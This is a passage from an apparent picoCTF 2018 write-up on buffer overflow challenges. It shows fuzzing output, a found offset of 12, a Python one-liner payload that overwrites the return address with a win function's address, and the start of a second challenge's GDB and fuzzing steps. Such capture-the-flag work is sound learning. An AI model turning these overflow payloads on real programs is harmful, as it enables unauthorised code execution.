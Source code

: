 Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
Segmentation fault (core dumped)
9
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x8040008
Segmentation fault (core dumped)
10
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x85cb0804
Segmentation fault (core dumped)
11
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0xcb080485
Segmentation fault (core dumped)
12
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
hola
hola
hola
hola
Segmentation fault (core dumped)

```


we see the offset is at 12 , then we prepare our payload to read flag.txt 

``` python -c "print 'A'*12+'\xcb\x85\x04\x08'*9" | ./vuln ```


# binary exploitation buffer overflow 2 

we first checked what kind of binary is.

![binary_bof_2](https://github.com/SkyBulk/picoCTF2018/blob/master/images/binary_bof_2_0.png)

once after we see it is an ELF 32 bits, then we ran GDB to see their functions, and binary security.

![binary_bof_2](https://github.com/SkyBulk/picoCTF2018/blob/master/images/binary_bof_2_1.png)

the binary display a ``` main , win, vuln functions ``` with their address , and we make our fuzzer to fuzz our binary as below

```

1
Please enter your string: 
A˅aaaaﾭ�����p�
2
Please enter your string: 
AA˅aaaaﾭ�����p�
3
Please enter your string: 
AAA˅aaaaﾭ�����p�
4
Please enter your string: 
AAAA˅aaaaﾭ�����p�
5
Please enter your string: 
AAAAA˅aaaaﾭ�����p�
6
Please enter your string: 